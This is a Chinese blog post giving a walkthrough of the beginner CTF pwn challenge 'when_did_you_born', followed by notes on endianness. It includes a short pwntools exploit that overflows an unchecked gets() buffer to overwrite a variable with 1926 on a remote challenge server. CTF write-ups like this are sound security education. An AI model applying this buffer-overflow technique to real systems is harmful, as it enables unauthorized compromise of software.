




<!--yml
category: 未分类
date: 2022-04-26 14:47:32
-->

# CTF|入门题目when_did_you_born解题思路以个人总结_一个不融化的雪人的博客-CSDN博客

> 来源：[https://blog.csdn.net/skyattractive/article/details/106461710](https://blog.csdn.net/skyattractive/article/details/106461710)

# CTF|入门题目when_did_you_born解题思路以个人总结

## 解题思路

拿到题目我们放入ubuntu里面通过`file born`（此处born是文件名）
来查看文件信息
得到信息：
ELF：文件elf格式
64-bit：64位文件
LSB：文件小端序（什么是小端序个人总结会写）
executable：顾名思义，可执行的文件

接下我们运行下文件`./born` 并过一遍文件流程

比较简单，输入生日birth 输入名字name 输出文字

将文件拖入反编译工具IDA `F5` 查看伪代码

得到伪代码后需要特别关注v4、v5两个变量的空间的大小
代码中间有个gets()函数，没有对用户输入的v4做限制，很可能被利用来栈溢出
同时，我们也得到了得到flag的方法：
函数希望v5的值为1926这样就可以cat flag，但是第一次输入的时候又不能输入1926，所以我们的思路是：**通过输入v4后造成gets函数的栈溢出，将第一次v5的值覆盖成1926就可以得到flag了**
总体思路比较简单

双击v4进入几个变量在栈中的位置‘

可以看到v4和v5之间相差8个距离我们需要填充八个垃圾数据，然后到v5的位置，将v5填充为1926，就可以得到flag了

编写exp

```
from pwn import*
p = remote("124.126.19.106",36887)

payload = 'a'*8 + p64(1926)

p.recvuntil("What's Your Birth?")
p.sendline('1925')
p.recvuntil("What's Your Name?")
p.sendline(payload)

p.interactive() 
```

运行得到flag


## 个人总结

**大端序和小端序**
这两种是其实指字节的存储的顺序，如果数据都是单字节的，那怎么存储无所谓了，但是对于多字节数据，比如int，double等，就要考虑存储的顺序了。

大端序：**数据的高位字节存放在地址的低端 低位字节存放在地址高端**
小端序：**数据的高位字节存放在地址的高端 低位字节存放在地址低端**

字节的高位与低位
举个例子，int a = 0x12345678 ; 那么左边12就是高位字节，右边的78就是低位字节，从左到右，由高到低，（注意，高低乃相对而言，比如56相对于78是高字节，相对于34是低字节）

地址的高端与低端
0x00000001
0x00000002
0x00000003
0x00000004
从上倒下，由低到高，地址值小的为低端，地址值大的为高端。

看看两种方式如何存储数据，假设从地址0x00000001处开始存储十六进制数0x12345678，那么

Big-endian 如此存放(按原来顺序存储)
0x00000001 – 12
0x00000002 – 34
0x00000003 – 56
0x00000004 – 78

Little-endian 如此存放(颠倒顺序储存)
0x00000001 – 78
0x00000002 – 56
0x00000003 – 34
0x00000004 – 12

**一个很好的记忆方法是**，大端序是按照数字的书写顺序进行存储的，而小端序是颠倒书写顺序进行存储的。

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）